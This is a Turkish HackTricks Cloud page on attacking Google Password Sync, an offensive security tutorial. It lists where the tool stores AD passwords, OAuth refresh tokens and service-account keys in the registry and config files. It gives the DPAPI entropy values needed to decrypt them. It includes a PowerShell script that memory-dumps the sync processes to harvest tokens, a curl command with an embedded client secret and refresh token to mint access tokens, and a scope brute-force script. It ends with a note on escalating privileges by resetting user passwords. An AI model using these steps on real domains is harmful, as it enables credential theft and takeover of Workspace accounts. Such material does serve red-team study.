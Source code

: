 # GPS - Google Password Sync

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

Bu, Google'ın **AD ile Workspace arasındaki kullanıcı şifrelerini senkronize tutmak için** sunduğu ikili dosya ve hizmettir. Bir kullanıcı AD'de şifresini her değiştirdiğinde, bu Google'a ayarlanır.

`C:\Program Files\Google\Password Sync` dizinine kurulur; burada yapılandırmak için `PasswordSync.exe` ikili dosyasını ve çalışmaya devam edecek olan `password_sync_service.exe` (hizmet) dosyasını bulabilirsiniz.

### GPS - Yapılandırma

Bu ikili dosyayı (ve hizmeti) yapılandırmak için, **Workspace'de bir Süper Yönetici ilkesine erişim vermek** gereklidir:

* Google ile **OAuth** üzerinden giriş yapın ve ardından **kayıt defterinde (şifreli) bir token saklayacaktır**
* Sadece GUI'ye sahip Alan Denetleyicilerinde mevcut
* **Workspace kullanıcılarını yönetme** izinlerine sahip bazı **GCP Hizmet Hesabı kimlik bilgileri** (json dosyası) vermek
* Bu kimlik bilgileri asla süresi dolmadığı için çok kötü bir fikirdir ve kötüye kullanılabilir
* Workspace üzerinde bir SA'ya erişim vermek çok kötü bir fikirdir çünkü SA GCP'de tehlikeye girebilir ve Workspace'e geçiş yapabilir
* Google, GUI'siz alan denetimleri için bunu gerektirir
* Bu kimlik bilgileri de kayıt defterinde saklanır

AD ile ilgili olarak, mevcut **uygulama bağlamını, anonim veya bazı özel kimlik bilgilerini** kullanmasını belirtmek mümkündür. Kimlik bilgileri seçeneği seçilirse, **kullanıcı adı** bir dosyada **diskte** saklanır ve **şifre** **şifrelenir** ve **kayıt defterinde** saklanır.

### GPS - Diskten şifre ve token dökme

{% hint style="success" %}
Not edin ki [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GPS**'yi tespit edebilir, yapılandırma hakkında bilgi alabilir ve **şifreyi ve token'ı bile şifreleyebilir**.
{% endhint %}

**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** dosyasında, yapılandırmanın bir kısmını bulmak mümkündür; burada yapılandırılan AD'nin **`baseDN`** ve kullanılan kimlik bilgileri olan **`username`** yer alır.

Kayıt defterinde **`HKLM\Software\Google\Google Apps Password Sync`** altında, AD kullanıcısı için **şifrelenmiş yenileme token'ı** ve **şifrelenmiş şifre** bulunabilir (varsa). Ayrıca, bir token yerine bazı **SA kimlik bilgileri** kullanılıyorsa, bunlar da o kayıt defteri adresinde şifrelenmiş olarak bulunabilir. Bu kayıt defterindeki **değerler** yalnızca **Yönetici** tarafından **erişilebilir**.

Şifrelenmiş **şifre** (varsa) **`ADPassword`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropiyi** kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Şifrelenmiş token (varsa) **`AuthToken`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropiyi** kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ayrıca, **`0123456789abcdefghijklmnopqrstv`** sözlüğü ile base32hex kullanılarak kodlanmıştır.

Entropi değerleri, aracı kullanarak bulundu. Araç, **`CryptUnprotectData`** ve **`CryptProtectData`** çağrılarını izlemek için yapılandırıldı ve ardından `PasswordSync.exe`'yi başlatmak ve izlemek için kullanıldı; bu, yapılandırılan şifreyi ve kimlik doğrulama token'ını başta çözecek ve araç, her iki durumda kullanılan **entropi değerlerini** gösterecektir:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Ayrıca, bu API'lere yapılan çağrıların giriş veya çıkışında **şifrelenmiş** değerleri görmek de mümkündür (eğer bir noktada Winpeas çalışmayı durdurursa).

Eğer Şifre Senkronizasyonu **SA kimlik bilgileri ile yapılandırılmışsa**, bu da kayıt defterindeki **`HKLM\Software\Google\Google Apps Password Sync`** anahtarları içinde saklanacaktır.

### GPS - Bellekten token dökme

GCPW ile olduğu gibi, `PasswordSync.exe` ve `password_sync_service.exe` süreçlerinin belleğini dökmek mümkündür ve yenileme ve erişim token'larını bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
Ayrıca, AD yapılandırılmış kimlik bilgilerini de bulabilirsiniz.

<details>

<summary> <code>PasswordSync.exe</code> ve <code>password_sync_service.exe</code> süreçlerini dökün ve token'ları arayın</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrını kullanarak erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Kapsamlar

{% hint style="info" %}
Bir refresh token'ına sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmek mümkün değildir çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, refresh token her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GPS, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları brute-force etmek için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı:
```
https://www.googleapis.com/auth/admin.directory.user
```
Hangi, herhangi bir kapsam belirtmediğinizde aldığınızla aynıdır.

{% hint style="danger" %}
Bu kapsam ile **mevcut bir kullanıcının şifresini değiştirerek ayrıcalıkları artırabilirsiniz**.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
